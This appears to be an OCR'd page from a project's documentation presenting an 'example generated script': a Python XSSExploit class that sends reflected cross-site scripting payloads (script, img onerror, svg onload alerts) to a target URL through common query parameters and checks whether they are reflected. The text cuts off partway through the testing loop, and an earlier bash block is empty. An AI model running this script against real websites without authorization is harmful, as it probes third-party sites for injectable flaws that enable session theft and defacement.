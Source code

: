 ```bash
```

### Example Generated Script

```python
import requests
import re
from urllib.parse import urljoin, quote

class XSSExploit:
    def __init__(self, target_url, session=None):
        self.target_url = target_url
        self.session = session or requests.Session()
        self.payloads = []
        
    def generate_payloads(self, context):
        '''Generate context-aware XSS payloads'''
        base_payloads = [
            '<script>alert("XSS")</script>',
            '<img src=x onerror=alert("XSS")>',
            '<svg onload=alert("XSS")>'
        ]
        
        self.payloads.extend(base_payloads)
        return self.payloads
    
    def test_payload(self, payload, injection_point):
        '''Test a specific payload at injection point'''
        try:
            encoded_payload = quote(payload)
            test_url = f"{self.target_url}{injection_point}={encoded_payload}"
            response = self.session.get(test_url)
            
            if payload in response.text:
                return {
                    'success': True,
                    'payload': payload,
                    'url': test_url,
                    'reflection_point': self._find_reflection_point(response.text, payload)
                }
            
            return {'success': False, 'payload': payload, 'reason': 'No reflection detected'}
            
        except Exception as e:
            return {'success': False, 'payload': payload, 'error': str(e)}
    
    def interactive_exploit(self, context):
        '''Interactive exploitation with user guidance'''
        print("🔍 Starting interactive XSS exploitation...")
        print(f"Target: {self.target_url}")
        
        payloads = self.generate_payloads(context)
        print(f"Generated {len(payloads)} payloads")
        
        successful_exploits = []
        
        for i, payload in enumerate(payloads):
            print(f"\n[{i+1}/{len(payloads)}] Testing: {payload}")
            
            injection_points = ['?q=', '?search=', '?id=', '?name=']
            
            for point in injection_points:
                result = self.test_payload(payload, point)
```